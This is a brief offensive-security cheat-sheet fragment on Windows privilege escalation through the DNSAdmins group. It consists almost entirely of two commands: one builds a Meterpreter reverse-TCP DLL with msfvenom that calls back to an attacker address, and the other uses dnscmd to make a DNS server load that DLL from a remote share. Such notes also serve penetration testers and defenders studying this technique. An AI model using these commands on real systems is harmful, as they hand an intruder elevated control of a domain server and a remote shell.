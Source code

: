 ### Sensitive Groups Privilege Escalation

### # DNSAdmins
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.1 LPORT=7777 -f dll -o DNSAdmins.dll
dnscmd.exe john.insomnia /config /serverlevelplugindll \\192.168.100.1:8080\DNSAdmins.dll
```
